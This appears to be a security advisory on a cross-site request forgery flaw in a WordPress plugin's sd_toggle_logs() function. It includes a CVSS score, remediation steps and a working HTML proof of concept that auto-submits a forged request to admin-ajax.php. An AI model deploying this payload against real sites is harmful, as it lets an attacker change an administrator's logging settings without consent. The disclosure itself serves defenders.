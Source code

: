 #  Cross-Site Request Forgery (CSRF) in Plugin System Dashboard (Funtion sd_toggle_logs)

**Vulnerability Type:** Cross-Site Request Forgery (CSRF)

**Affected Function:** sd_toggle_logs()

**CVSS v3.1:** 4.3 (Medium)    
**Vector:** AV:N/AC:L/PR:H/UI:R/S:U/C:N/I:L/A:N    
*(Note: Score reflects unauthorized state change requiring an admin victim and user interaction.)*

**Description of Vulnerability:**

The function `sd_toggle_logs()` processes sensitive operations such as enabling/disabling Page Access Logs, Error Logs, and Email Delivery Logs. However, it relies solely on the `$_REQUEST['log_type']` parameter and a capability check `(current_user_can( 'manage_options' ))` without implementing CSRF protection (e.g., `check_admin_referer()` or a nonce).

As a result, an attacker can lure a logged-in Administrator to visit a malicious page that silently submits a crafted request, causing unintended enable/disable changes to site logging.

## Impact:

- Unauthorized state changes for site logging features (Page Access Log, Error Log, Email Delivery Log).

- If error logging is enabled, the site may begin writing application errors to a file path determined by the plugin (increasing the chance of operational information disclosure via logs), but the direct impact of this issue is the state toggle itself.

## POC 
When a logged-in User with `manage_options` visits the attacker’s page, the respective logging feature is toggled without explicit consent.
``` html
 <body>
    <form action="http://victim.com/wordpress/wp-admin/admin-ajax.php">
      <input type="hidden" name="action" value="sd&#95;toggle&#95;logs" />
      <input type="hidden" name="log&#95;type" value="errors&#95;log" />
      <input type="hidden" name="fast&#95;ajax" value="true" />
      <input type="hidden" name="load&#95;plugins&#91;&#93;" value="system&#45;dashboard&#47;system&#45;dashboard&#46;php" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## Remediation

- Implement WordPress nonces (`check_admin_referer()` or `wp_verify_nonce()`) to validate requests.

- Restrict sensitive actions to POST requests only.

- Avoid relying solely on capability checks for protection against CSRF.

## Video POC
If you're unable to reproduce the issue exactly as described in the report, please refer to the following video demonstration (PoC) for a clear reproduction scenario:

https://youtu.be/WtWYIfEM4W0